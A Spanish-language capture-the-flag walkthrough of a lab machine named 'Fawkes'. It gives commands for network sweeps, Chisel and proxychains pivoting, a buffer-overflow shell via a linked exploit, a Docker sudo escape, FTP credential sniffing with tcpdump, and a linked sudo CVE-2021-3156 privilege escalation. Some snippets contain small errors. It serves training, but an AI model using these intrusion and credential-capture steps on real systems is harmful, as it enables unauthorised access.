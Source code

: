```yaml
---
title: "3. Fawkes"
description: "Describe la explotación de una máquina mediante Buffer Overflow en un ejecutable FTP, escape de contenedor Docker y escalada de privilegios abusando de una vulnerabilidad en Sudo."
pubDate: 2025-05-20
---
```


[2. Nagini](../2-nagini)

# Fase de reconocimiento

## Buscamos hosts en la red

Buscaremos host en red con un script en bash

````
#!\dev
ull

for i in $(seq 1 254); do
		timeout 1 bash -c "ping -c 10.10.0.$i" &>/dev/null && echo "[+] Host 10.0.0.$i - ACTIVE" &
		
done; wait
````

(Si no acepta traza icmp⬇ )

````
#!\dev
ull

for i in $(seq 1 254); do
		for port in 21 22 80 443 445 8080; do
				timeout 1 bash -c "echo '' > /dev/tcp/10.10.0.$i/$port" &>/dev/null && echo "[+] Host 10.0.0.$i - ACTIVE - PORT $port" &
		done
		
done; wait
````

 > [!NOTE]
 > Esto no se suele hacer, se suele usar mas Chisel qué es más fácil

## Pivoting con Chisel

Chisel creará un tunnel entre el chisel servidor y el/los cliente/s trayendo puertos.
Para poder utilizar la maquina atacante todo el rato.

1. Copiamos chisel en la maquina Nagini

````
proxychains scp chisel root@<ip2>:/tmp/chisel
````

2. Nos conectamos al servidor

````
./chisel client <ip1>:2322 R:8888:socks
````

3. Con socat en Aragog lo redirigimos al servidor

````
./socat TCP-LISTEN:2322, fork TCP:<ipa>:1234
````

Esto abrirá un túnel por la 8888 con la red del cliente
4. Con el proxy "proxychains" configuramos el archivo "proxychains.conf"

````
# strict_chain
Deshasteamos dynamic_chain
add abajo:
	socks5 127.0.0.1 8888
	socks5 127.0.0.1 1080
````

Ahora para ejeuctar comandos en 'ip2' con proxycahins -comando-

## Buscar puertos

Buscaremos puertos con la ayuda de xargs para agilizar el escaneo

````
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n <ip3> 2>&1 | grep "tcp open"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240422182642.png)

## FoxyProxy

Para poder ver la web añadimos un proxy en el navegador con FoxyProxy con el puerto 8888
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240422180531.png)

## FTP

Nos conectamos al FTP

````
proxychains ftp <ip3>
````

Name: anonymous
password:

````
ftp> passive
ftp> dir
ftp> binary
ftp> get <archivo>
````

# Fase de ataque

## Buffer Overflow

El archivo conseguido por FTP es un ejecutable, este mismo ejecutable esta abierto en la maquina por el puerto 9898.
Este ejecutable pude ser atacado por Buffer Overflow.

(No explicado por mi) https://taishi8117.github.io/2016/07/24/bof-metasploit/
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240422201341.png)

Utilizar Chisel en Naigini y Aragog para recibir la shell

````
proxychains pyhton3 exploit.py
````

\[-\] ==pwned!==

Ajustar terminal

# Privilege Escalation

## Docker

````
sudo /bin/sh
````

Hay una nota que nos sugiere revisar el trafico FTP

````
tcpdump -i th0 port ftp or ftp-data
````

Revisando nos da un usuario y contraseña de Fawkes

## Fawkes

````
proxychains ssh <usr>@<ip3>
````

Numeramos archivos con permisos

````
find \-perm -4000 2>/dev/null
````

Encontramos un sudo version 1.8.27 con un CVE
https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
Copiamos el script y cambiamos la ruta de sudo

````
python3 script.py
````

\[+\] ==pwned!==

# Resumen Técnicas

EXTRA: Running chisel as a client from the Nagini machine to reach the Fawkes machine
EXTRA: Creating a new socks5 connection through a new port
EXTRA: FTP connection in passive mode when going through proxychains
Binary Enumeration - Buffer Overflow (x32) Stack Based
EXTRA: Execution of the Buffer Overflow sending the reverse shell through 2 machines until it reaches us
Abusing Sudoers Privilege in a container
Intercepting the traffic with tcpdump - Discovering credentials in FTP authentication
SSH Credential Reuse - Escaping the Container
Abusing sudo 1.8.27 version (CVE-2021-3156) (Privilege Escalation)
